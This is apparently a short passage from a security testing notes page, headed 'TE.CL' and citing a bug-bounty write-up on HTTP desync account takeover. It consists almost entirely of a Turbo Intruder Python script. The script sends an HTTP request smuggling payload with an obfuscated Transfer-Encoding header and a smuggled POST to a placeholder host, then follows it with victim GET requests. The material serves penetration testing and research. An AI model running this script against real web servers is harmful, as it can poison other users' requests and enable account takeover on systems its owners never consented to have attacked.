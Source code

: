 ### TE.CL

From: [https://hipotermia.pw/bb/http-desync-account-takeover](https://hipotermia.pw/bb/http-desync-account-takeover)

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=1,
                           resumeSSL=False,
                           timeout=10,
                           pipeline=False,
                           maxRetriesPerRequest=0,
                           engine=Engine.THREADED,
                           )
    engine.start()

    attack = '''POST / HTTP/1.1
Host: xxx.com
Content-Length: 4
Transfer-Encoding : chunked

46
POST /nothing HTTP/1.1
Host: xxx.com
Content-Length: 15

kk
0

'''
    engine.queue(attack)

    victim = '''GET / HTTP/1.1
Host: xxx.com

'''
    for i in range(14):
        engine.queue(victim)
        time.sleep(0.05)


def handleResponse(req, interesting):
    table.add(req)
```

## More info

![](../../.gitbook/assets/EKi5edAUUAAIPIK.jpg)
